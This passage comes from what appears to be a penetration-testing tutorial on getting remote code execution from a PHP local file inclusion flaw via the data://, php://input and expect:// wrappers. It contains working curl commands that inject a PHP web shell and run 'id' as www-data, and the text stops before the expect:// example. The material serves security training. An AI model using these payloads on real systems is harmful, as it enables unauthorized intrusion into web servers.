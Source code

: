 We may also use cURL for the same attack, as follows:

```shell
curl -s 'http://<SERVER_IP>:<PORT>/index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd=id' | grep uid
            uid=33(www-data) gid=33(www-data) groups=33(www-data)

```

* * *

## Input

Similar to the `data` wrapper, the [input](https://www.php.net/manual/en/wrappers.php.php) wrapper can be used to include external input and execute PHP code. The difference between it and the `data` wrapper is that we pass our input to the `input` wrapper as a POST request's data. So, the vulnerable parameter must accept POST requests for this attack to work. Finally, the `input` wrapper also depends on the `allow_url_include` setting, as mentioned earlier.

To repeat our earlier attack but with the `input` wrapper, we can send a POST request to the vulnerable URL and add our web shell as POST data. To execute a command, we would pass it as a GET parameter, as we did in our previous attack:

```shell
curl -s -X POST --data '<?php system($_GET["cmd"]); ?>' "http://<SERVER_IP>:<PORT>/index.php?language=php://input&cmd=id" | grep uid
            uid=33(www-data) gid=33(www-data) groups=33(www-data)

```

**Note:** To pass our command as a GET request, we need the vulnerable function to also accept GET request (i.e. use `$_REQUEST`). If it only accepts POST requests, then we can put our command directly in our PHP code, instead of a dynamic web shell (e.g. `<\?php system('id')?>`)

* * *

## Expect

Finally, we may utilize the [expect](https://www.php.net/manual/en/wrappers.expect.php) wrapper, which allows us to directly run commands through URL streams. Expect works very similarly to the web shells we've used earlier, but don't need to provide a web shell, as it is designed to execute commands.

However, expect is an external wrapper, so it needs to be manually installed and enabled on the back-end server, though some web apps rely on it for their core functionality, so we may find it in specific cases. We can determine whether it is installed on the back-end server just like we did with `allow_url_include` earlier, but we'd `grep` for `expect` instead, and if it is installed and enabled we'd get the following:

```shell
echo 'W1BIUF0KCjs7Ozs7Ozs7O...SNIP...4KO2ZmaS5wcmVsb2FkPQo=' | base64 -d | grep expect
extension=expect

```

As we can see, the `extension` configuration keyword is used to enable the `expect` module, which means we should be able to use it for gaining RCE through the LFI vulnerability. To use the expect module, we can use the `expect://` wrapper and then pass the command we want to execute, as follows:
